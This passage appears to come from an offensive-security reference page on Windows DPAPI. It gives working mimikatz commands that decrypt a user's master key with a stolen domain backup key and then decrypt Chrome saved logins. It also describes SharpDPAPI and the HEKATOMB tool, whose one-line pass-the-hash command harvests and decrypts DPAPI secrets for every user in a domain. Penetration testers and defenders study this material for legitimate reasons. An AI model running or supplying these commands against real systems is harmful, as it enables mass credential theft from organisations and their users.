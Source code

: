 Using the retrieved backup key, let's decrypt user's `spotless` master key:

```bash
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```

We can now decrypt user's `spotless` chrome secrets using their decrypted master key:

```
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```

![](<../../.gitbook/assets/image (329).png>)

## Encrypting and Decrypting content

You can find an example of how to encrypt and decrypt data with DAPI using mimikatz and C++ in [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)\
You can find an example on how to encrypt and decrypt data with DPAPI using C# in [https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection)

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) is a C# port of some DPAPI functionality from [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) project.

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) is a tool that automates the extraction of all users and computers from the LDAP directory and the extraction of domain controller backup key through RPC. The script will then resolve all computers ip address and perform a smbclient on all computers to retrieve all DPAPI blobs of all users and decrypt everything with domain backup key.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

With extracted from LDAP computers list you can find every sub network even if you didn't know them !
